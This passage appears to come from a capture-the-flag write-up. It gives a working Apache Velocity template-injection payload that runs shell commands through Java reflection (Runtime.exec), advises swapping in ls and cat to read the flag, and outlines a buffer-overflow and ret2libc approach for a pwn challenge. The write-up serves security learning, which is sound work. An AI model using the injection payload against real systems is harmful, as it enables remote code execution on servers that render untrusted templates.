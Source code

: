 Use that payload, modify the command to `ls /` first, then `cat` the flag. 

```VTL
			#set($s="")
			#set($stringClass=$s.getClass())
			#set($stringBuilderClass=$stringClass.forName("java.lang.StringBuilder"))
			#set($inputStreamClass=$stringClass.forName("java.io.InputStream"))
			#set($readerClass=$stringClass.forName("java.io.Reader"))
			#set($inputStreamReaderClass=$stringClass.forName("java.io.InputStreamReader"))
			#set($bufferedReaderClass=$stringClass.forName("java.io.BufferedReader"))
			#set($collectorsClass=$stringClass.forName("java.util.stream.Collectors"))
			#set($systemClass=$stringClass.forName("java.lang.System"))
			#set($stringBuilderConstructor=$stringBuilderClass.getConstructor())
			#set($inputStreamReaderConstructor=$inputStreamReaderClass.getConstructor($inputStreamClass))
			#set($bufferedReaderConstructor=$bufferedReaderClass.getConstructor($readerClass))
			#set($runtime=$stringClass.forName("java.lang.Runtime").getRuntime())
			#set($process=$runtime.exec("whoami"))
			#set($null=$process.waitFor() )
			#set($inputStream=$process.getInputStream())
			#set($inputStreamReader=$inputStreamReaderConstructor.newInstance($inputStream))
			#set($bufferedReader=$bufferedReaderConstructor.newInstance($inputStreamReader))
			#set($stringBuilder=$stringBuilderConstructor.newInstance())
			#set($output=$bufferedReader.lines().collect($collectorsClass.joining($systemClass.lineSeparator())))
			$output
```

# Pwn

## Tutorial

Just `nc` to that address and answer it's questions.

## Pet Companion


Analyzing the source code (`Ghidra`/`IDA`), we can see that there might be a potential buffer overflow, since `read()` can read past the allocated buffer easily.
Test that hypotesis in `GDB`. It'll work. Then check how much we need to write in order to get to `RIP`. In this case, it'll be 72 characters. (You can also use `msf-pattern-create` or `GDB-PEDA`'s `pattern`) 

Now that we have a working exploit, let's look through the file to see what we need to do with it. Looking through it, not much is revealed, as there's no function we should call or get the flag somehow. Thus, our last avenue of obtaining the flag would be to obtain a shell, which would require a ret2libc attack, since we need to call `system("/bin/sh")` to get a shell.

To initiate that attack, we first have to find some way to leak `libc` addresses.

Since our program uses `write`, `read`, we can use write to print out whatever function address we want. We'll use `read` in this example.
